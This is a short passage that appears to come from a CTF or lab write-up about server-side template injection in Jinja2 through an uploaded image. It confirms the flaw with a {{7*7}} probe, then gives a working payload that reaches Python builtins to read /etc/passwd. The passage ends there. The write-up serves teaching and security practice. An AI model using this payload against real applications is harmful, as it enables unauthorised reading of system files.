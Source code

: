 ![](screenshots/resukt_example.png)

---
## 3. Exploitation

### 3.1 SSTI Probe

We test for SSTI by uploading an image containing `{{7*7}}`:

![](screenshots/image_49.png)

Result:

![](screenshots/result_49.png)

The output returns `49`, confirming **SSTI in Jinja2**.

---
### 3.2 Reading `/etc/passwd`

We exploit SSTI to read system files:

```jinja
{{get_flashed_message.__globals__.__builtins__.open("/etc/passwd").read() }}
```
